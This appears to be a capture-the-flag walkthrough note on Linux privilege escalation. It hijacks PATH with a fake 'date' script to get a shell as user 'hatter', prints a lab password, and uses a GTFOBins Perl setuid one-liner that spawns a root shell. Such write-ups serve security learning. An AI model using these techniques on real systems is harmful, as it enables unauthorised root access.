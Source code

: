![[Pasted image 20240821162553.png]]

downloaded `teaParty` to attacker machine and analysed the strings which shows that it is running a command `date` to display date during execution

Created our own `date` binary
```
#!/bin/bash

/bin/bash
```
and placed it in /tmp directory

- Added /tmp to $PATH
```
export PATH=/tmp:$PATH
```
- Executed the binary `teaParty` and got shell as `hatter`
![[Pasted image 20240821163631.png]]

Found a password file in `hatter`'s home directory
```
WhyIsARavenLikeAWritingDesk?
```

The user `hatter` has Perl capabilities set
![[Pasted image 20240821164117.png]]

Using GTFObins
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```


